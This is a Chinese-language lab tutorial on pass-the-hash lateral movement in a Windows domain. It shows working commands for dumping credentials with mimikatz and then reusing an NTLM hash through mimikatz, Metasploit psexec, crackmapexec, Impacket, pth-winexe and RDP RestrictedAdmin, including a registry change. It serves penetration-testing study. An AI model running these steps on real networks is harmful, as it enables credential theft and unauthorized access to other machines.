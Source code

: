 ## PTH的利用
### PTH简介
path-the-hash,中文直译过来就是hash传递，在域中是一种比较常用的攻击方式。
pth攻击的流程是这样的：
1. 获取一台域内主机最高权限
2. 利用工具获取ntlm-hash
3. 使用工具利用hash尝试登录域内其他主机

### 实验环境
域控 winserver2019 192.168.50.128 192.168.6.130（双网卡）
域主机 win7 sp1 192.168.50.129（域管曾登陆过）
攻击机 物理机&kali虚拟机

### hash获取
哈希的获取一般还是mimikatz比较方便，直接用上一篇博客编译好的mimikatz上传到win7上。
运行
```shell
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> pass.txt
```
直接获得域管的哈希，因为是win7所以其实是可以直接获取明文密码的，这里假装不知道，只是用hash。
抓到的administrator的ntlm-hash是：`b0093b0887bf1b515a90cf123bce7fba`

### mimikatz的PTH
- pth开启cmd
mimikatz命令是
```
sekurlsa::pth /user:administrator /domain:no0b.net /ntlm:b0093b0887bf1b515a90cf123bce7fba
```
可以直接开启一个域管的cmd，如下图

![mimikatz_pth_cmd](D:\md\PTH的利用\mimikatz_pth_cmd.png)

### metasploit
metasploit在域控机器上执行
在metasploit中使用的其实还是psexec这种执行命令的工具。
具体以使用最基本的psexec为例。
```
msf5 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set rhosts 192.168.50.129
rhosts => 192.168.50.129
msf5 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf5 exploit(windows/smb/psexec) > set smbdomain no0b.net
smbdomain => no0b.net
msf5 exploit(windows/smb/psexec) > set smbpass 00000000000000000000000000000000:b0093b0887bf1b515a90cf123bce7fba
smbpass => 00000000000000000000000000000000:b0093b0887bf1b515a90cf123bce7fba
msf5 exploit(windows/smb/psexec) > exploit
```
这样就可以获得一个shell，执行sysinfo可以看到信息，如下

![msf_psexec_shell](D:\md\PTH的利用\msf_psexec_shell.png)

除此之外，metasploit还有smb_login等模块不同协议可以利用PTH。

### Crackmapexec
Crackmapexec这个工具可以在kali上直接安装`apt-get install Crackmapexec`即可。
使用方式是：`crackmapexec smb ip -u Administrator -H ntlm-hash -x command`。
对域主机win7执行whoami，如下图

![msf_psexec_shell](D:\md\PTH的利用\msf_psexec_shell.png

![Crackmapexec_smb](D:\md\PTH的利用\Crackmapexec_smb.png)

Crackmapexec这个工具不止这些用法，日后可以单独写一篇使用技巧。
### Impacket
Impacket是一款功能非常强大的工具包，在我们与服务器交互时大有帮助。
对于pth的利用Impacket有很多工具，最直接的就是smbclient.py和psexec.py。
smbclient.py的命令是`python3 smbclient.py -hashes 00000000000000000000000000000000:ntlm-hash domain/Administrator@ip`

执行效果如下图

![impacket_smb](D:\md\PTH的利用\impacket_smb.png)

psexec.py的命令是`python psexec.py -hashes 00000000000000000000000000000000:ntlm-hash domain/Administrator@ip`

执行效果如下图

![impacket_psexec](D:\md\PTH的利用\impacket_psexec.png)

### kali PTH工具包
kali本身也是自带PTH攻击的工具包的，功能不少。
![kali-PTH](D:\md\PTH的利用\kali-PTH.png)

以使用pth-winexe来进行PTH攻击。
命令是`pth-winexe -U domain/Administrator%00000000000000000000000000000000:ntlm-hash //ip cmd`

![pth-winexe](D:\md\PTH的利用\pth-winexe.png)


### pth-RDP
pth攻击的利用还可以用来远程桌面登录。
这里以mimikatz为例。
mimikatz的命令是`sekurlsa::pth /user:administrator /domain:no0b.net /ntlm:b0093b0887bf1b515a90cf123bce7fba "/run:mstsc.exe /restrictedadmin"
`

![mimikatz_pth_rdp](D:\md\PTH的利用\mimikatz_pth_rdp.png)

值得注意的是这里需要远程桌面开启restrictedadmin模式。开启的命令是
`REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
`
同时这个模式对RDP的版本也有要求，最低未8.1。目前win8/winserver2012R2及以上的版本都是高于8.1的，只需要改注册表就可以打开。
但是本次使用的win7就需要安装一系列补丁从而升级到rdp8.1版本。(查看rdp版本可以打开rdp的窗口后右键查看关于)
![RDP_about](D:\md\PTH的利用\RDP_about.png)
对于win7 sp1升级到RDP8.1，以下安装的补丁仅供参考。
![win7sp1_to_rdp8.1](D:\md\PTH的利用\win7sp1_to_rdp8.1.png)

## 参考链接
https://www.4hou.com/posts/DPqY （原文链接：https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/）
